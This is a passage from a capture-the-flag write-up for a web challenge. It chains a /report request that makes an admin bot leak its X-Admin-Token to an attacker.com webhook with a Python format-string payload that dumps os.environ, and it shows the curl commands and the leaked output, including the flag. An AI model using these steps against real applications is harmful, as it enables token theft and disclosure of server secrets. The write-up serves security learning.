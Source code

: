 We can then add `.environ` to get the environment variables:
`{0.__globals__[Flask].__init__.__globals__[os].environ}`

```
 environ({'PATH': '/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin', 'HOSTNAME': '1d7438abd92d', 'FLAG': 'PWNME{FAKE_FLAG}', 'LANG': 'C.UTF-8', 'GPG_KEY': 'E3FF2839C048B25C084DEBE9B26995E310250568', 'PYTHON_VERSION': '3.9.4', 'PYTHON_PIP_VERSION': '21.1.1', 'PYTHON_GET_PIP_URL': 'https://github.com/pypa/get-pip/raw/1954f15b3f102ace496a34a013ea76b061535bd2/public/get-pip.py', 'PYTHON_GET_PIP_SHA256': 'f499d76e0149a673fb8246d88e116db589afbd291739bd84f2cd9a7bca7b6993', 'DEBIAN_FRONTEND': 'noninteractive', 'HOME': '/root', 'WERKZEUG_SERVER_FD': '3'})None
```

We get the sample flag!

## Putting it all together

Let's do the steps on remote:

1. Trigger the request to the `/report` endpoint that exfiltrates the `X_Admin_Token` to our webserver.

```bash
$ curl "https://saymyname-c588791ba9cff43a.deploy.phreaks.fr/report?url=https://attacker.com"
```

We get the token on our webhook.site: `X-Admin-Token=17c738b0787c99a392debb90bf9b57be`

2. Use that token to get the flag from the Python format string vulnerability

```bash
$ curl -X GET "https://saymyname-c588791ba9cff43a.deploy.phreaks.fr/admin?prompt=%7B0.__globals__%5BFlask%5D.__init__.__globals__%5Bos%5D.environ%7D" --cookie "X-Admin-Token=17c738b0787c99a392debb90bf9b57be"
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Admin</title>
</head>
<body>
    environ({&#39;PATH&#39;: &#39;/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin&#39;, &#39;HOSTNAME&#39;: &#39;ctf-saymyname-c588791ba9cff43a-785bb6f958-qds96&#39;, &#39;LANG&#39;: &#39;C.UTF-8&#39;, &#39;GPG_KEY&#39;: &#39;E3FF2839C048B25C084DEBE9B26995E310250568&#39;, &#39;PYTHON_VERSION&#39;: &#39;3.9.4&#39;, &#39;PYTHON_PIP_VERSION&#39;: &#39;21.1.1&#39;, &#39;PYTHON_GET_PIP_URL&#39;: &#39;https://github.com/pypa/get-pip/raw/1954f15b3f102ace496a34a013ea76b061535bd2/public/get-pip.py&#39;, &#39;PYTHON_GET_PIP_SHA256&#39;: &#39;f499d76e0149a673fb8246d88e116db589afbd291739bd84f2cd9a7bca7b6993&#39;, &#39;DEBIAN_FRONTEND&#39;: &#39;noninteractive&#39;, &#39;FLAG&#39;: &#39;PWNME{b492b312612c741b3b6597f925f88198}&#39;, &#39;KUBERNETES_SERVICE_PORT&#39;: &#39;443&#39;, &#39;KUBERNETES_SERVICE_PORT_HTTPS&#39;: &#39;443&#39;, &#39;KUBERNETES_PORT&#39;: &#39;tcp://34.118.224.1:443&#39;, &#39;KUBERNETES_PORT_443_TCP&#39;: &#39;tcp://34.118.224.1:443&#39;, &#39;KUBERNETES_PORT_443_TCP_PROTO&#39;: &#39;tcp&#39;, &#39;KUBERNETES_PORT_443_TCP_PORT&#39;: &#39;443&#39;, &#39;KUBERNETES_PORT_443_TCP_ADDR&#39;: &#39;34.118.224.1&#39;, &#39;KUBERNETES_SERVICE_HOST&#39;: &#39;34.118.224.1&#39;, &#39;HOME&#39;: &#39;/root&#39;, &#39;WERKZEUG_SERVER_FD&#39;: &#39;3&#39;})None
</body>
</html>
```
